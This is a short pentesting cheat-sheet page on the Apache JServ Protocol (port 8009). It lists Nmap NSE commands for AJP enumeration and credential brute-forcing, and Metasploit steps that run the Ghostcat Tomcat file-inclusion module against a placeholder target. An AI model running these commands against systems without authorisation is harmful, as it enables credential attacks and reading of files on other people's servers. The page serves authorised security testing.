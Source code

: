 ```yaml
---
title: Apache JServ Protocol (AJP) Pentesting
desc: A binary protocol that can proxy inbound requests from a web server through to an application server that sits behind the web server. A default port is 8009.
tags: [8009, AJP, Apache, Metasploit, Nmap, Web]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ajp-auth -p 8009 <target-ip>
    nmap --script ajp-auth --script-args ajp-auth.path=/login -p 8009 <target-ip>
    nmap --script ajp-brute -p 8009 <target-ip>
    nmap --script ajp-headers -p 8009 <target-ip>
    nmap --script ajp-methods -p 8009 <target-ip>
    nmap --script ajp-request -p 8009 <target-ip>
    ```

<br />

## Vulnerabilities

1. **[Ghostcat File Inclusion](https://www.exploit-db.com/exploits/49039){:target="_blank"}**

    It's a vulnerability of **Tomcat AJP**

    - **Use Metasploit**

        ```sh
        msfconsole
        msf6 > use auxiliary/admin/http/tomcat_ghostcat
        msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts <target-ip>
        msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
        ```
